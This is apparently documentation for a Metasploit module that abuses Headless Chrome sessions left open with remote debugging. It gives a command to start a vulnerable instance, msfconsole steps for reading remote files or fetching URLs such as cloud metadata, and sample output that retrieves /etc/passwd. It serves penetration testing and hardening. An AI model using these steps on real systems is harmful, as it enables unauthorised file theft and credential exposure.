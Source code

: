 ## Vulnerable Application

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specified file off the remote file system, or makes a web request from the remote machine.

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.

A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps

1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FILEPATH $FILE_PATH_ON_REMOTE` or `set URL $URL_FROM_REMOTE`
6. Execute `run`

## Options

**FILEPATH**

The file path on the remote you wish to retrieve.

**URL**

A URL you wish to fetch the contents of from the remote machine.

**Note:** One or the other must be set!

## Scenarios

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```
